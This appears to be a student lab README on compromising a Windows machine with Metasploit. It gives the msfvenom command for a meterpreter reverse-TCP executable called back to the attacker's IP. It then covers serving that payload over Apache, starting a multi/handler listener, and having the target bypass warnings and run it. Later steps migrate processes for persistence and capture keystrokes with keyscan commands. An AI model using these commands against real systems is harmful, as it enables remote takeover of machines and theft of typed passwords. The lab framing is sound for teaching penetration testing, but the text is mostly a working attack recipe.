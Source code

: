 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/0f0a4214-f2dc-4996-8926-eb56392bcc9c)


Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/7556fc57-da46-4e95-8513-3751c39f7877)



copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/ef0ae3f2-ed72-4581-a5e3-082fc0c1c662)


Start apache server
sudo systemctl apache2 start

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/06567d9d-bf5a-46f3-8915-09e660fd0ee6)



Check the status of apache2
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6ce0d347-84b4-4782-9e05-3684db0a972a)



Invoke msfconsole:
## OUTPUT:




Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.


Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/039dce90-c240-40e3-a053-479988b6de5a)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/aa0b8678-65a2-4343-860c-047c9a5f377d)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/e52ec7e8-339e-4c61-97d4-6ded61fa3868)


To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/b01cdebf-4e0f-4184-b6c3-de19d44d03a0)


Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/8347aaba-4690-4922-8388-33f496f36796)


keyscan_dump	Shows the keystrokes captured so far
![image](https://github.com/Darkwebnew/Compromising-windows-using-Metasploit/assets/143114486/6e719e14-830f-4589-a9de-86ebbba28b65)


## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
